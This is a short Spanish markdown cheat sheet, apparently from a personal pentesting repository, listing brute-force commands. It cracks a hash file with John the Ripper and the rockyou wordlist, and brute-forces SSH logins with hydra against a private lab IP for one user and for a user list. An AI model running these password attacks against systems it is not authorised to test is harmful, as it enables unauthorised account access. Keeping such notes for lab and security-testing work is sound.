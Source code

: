 # Fuerza bruta

Aquí se almacenan los comandos utilizados para hacer `fuerza bruta` a medida que los vamos descubriendo.

## john

Romper hash almacenado en fichero

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## hydra

Romper ssh para un usuario.

```bash
hydra -l pepe -P /usr/share/wordlists/rockyou.txt ssh://192.168.11.166 
```

Romper ssh para listado de usuarios.

```bash
hydra -L users -P /usr/share/wordlists/rockyou.txt ssh://192.168.11.166 
```